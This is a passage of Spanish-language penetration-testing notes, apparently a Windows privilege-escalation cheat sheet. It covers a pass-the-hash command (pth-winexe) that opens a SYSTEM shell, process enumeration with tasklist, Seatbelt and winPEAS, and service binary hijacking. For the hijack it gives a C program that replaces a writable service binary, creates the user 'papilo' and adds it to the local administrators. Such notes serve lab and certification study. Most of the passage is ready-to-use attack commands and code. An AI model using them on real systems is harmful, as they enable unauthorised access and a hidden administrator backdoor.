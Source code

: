 2.1º Sesion con administrador
~~~~c
>> pth-winexe --system -U ‘USUARIO%HASH’ //IP cmd.exe
~~~~

# Adicionales

## Installed Apps

1º Listar Programas corriendo
~~~~c
>> tasklist /V
~~~~

2º Buscar procesos no estandard en windows
~~~~c
>> .\Seatbelt.exe NonstandardProccesses
~~~~

3º Buscar procesos con winPEASany
~~~~c
>> .\winPEASany.exe quiet procesinfo
~~~~

4º De lo que hayamos encontrado buscamos en exploitdb

## Service binary hijacking 

1º Miramos binarios que no esten corriendo en su ruta en C:\Windows\system32
~~~~c
>> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
~~~~

2º De los binarios que no esten corriendo en el path de windows, le pasamos icacls para ver si nuestro grupo tiene permisos para manipularlo
~~~~c
>> icacls "PATH del .exe"
~~~~
Tabla de permisos según mascara
F: Full Access (Permiso juicy)
M: Modify Access (Permiso Juicy)
RX: Read and Execute access (no Juicy)
R: Read-Only Access (no juicy)
W: Write-Only Access (juicy)

3º Vamos a usar este codigo, esto lo que hace es sobreescribir el binario y realizar los comandos descritos
~~~~c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user papilo password123! /add");
  i = system ("net localgroup administrators papilo /add");
  
  return 0;
}
~~~~
